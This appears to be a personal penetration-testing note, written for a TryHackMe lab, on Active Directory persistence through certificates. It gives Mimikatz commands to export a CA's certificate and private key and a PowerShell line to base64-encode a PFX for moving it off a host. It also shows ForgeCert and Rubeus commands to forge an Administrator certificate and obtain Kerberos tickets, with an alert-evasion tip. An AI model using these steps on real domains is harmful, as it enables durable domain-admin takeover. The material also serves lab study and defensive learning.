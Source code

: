# Active Directory Persistence With Certificates

We the use of [[AD-Certificate-Exploitation]], leveraging certifications to become Domain Admins can be viable method of persistemces as all that is requiered is a valid certificate used for client authentication. The certificate can be used to request a TGT. The certificate has to be revoked or expire for a failure state to occur, therefore potential persistent access by default for around 5 years. 

## Certificate Authority CA 

Steal the private key of the root CA's certificate to generate our own certificates. Blue can not revoke them as they were never issue by the CA and would require a CA rotation - all issued certificates would have to be revoked and new one reinstated! With [[Mimikatz-Cheatsheet]] or [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)

The private key of the CA is stored on the CA server, if not protoect through Hardware Security Module (HSM) - a hardware-based protection method - it is protected by the machine Data Protection API (DPAPI).

Way to exfiltrate the certificates with PowerShell
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("/users/administrator/LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.pfx"))
```
Way to infiltrate a certificate with PowerShell
```powershell
$base64String = "<INSERT Base64 ENCODED PFX>"
# Convert the Base64 string back to bytes
$bytes = [System.Convert]::FromBase64String($base64String)

# Save the bytes to a file
Set-Content -Path "<YOUR PATH>\file.pfx" -Value $bytes -Encoding Byte
```

```powershell
# View CA Certificate on the DC 
# Some Certificate do not allow exporting the private key  
crypto::certificates /systemstore:local_machine
# Therefore use Mimikatz to generate a new certificate 
privilege::debug
crypto::capi
crypto:cng
crypto::certificates /systemstore:local_machine /export
# Exported certificates will be stored in both PFX and DER format to disk
```
Transfer both .pfx and .der certificate files to non domain machine for safe keeping and safer certificate generation.

Use SpectreOps's [ForgeCert](https://github.com/GhostPack/ForgeCert) to forge a Client Authentication certificate.
```powershell
# --SubjectAltName is User principle name UPN 
ForgeCert.exe --CaCertPath $exportedCAcertificate --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath $NewCertName.pfx --NewCertPassword Password123
```
Then use [[Rubeus-Cheatsheet]] to request a TGT using the certificate to verify that the certificate is trusted:
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:$generated-cert /password:$cert-password /outfile:$output.pfx /domain:$domain /dc:$dc-ip
# /user has to match the UPN for the certificate
# set /enctype to avoid overpass-the-hash alert
# /dc: set to DC that has CA service running!
```

Then [[Mimikatz-Cheatsheet]] to [[Pass-The-Ticket]]
```powershell
kerberos::ptt $ticket.kirbi
```

## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)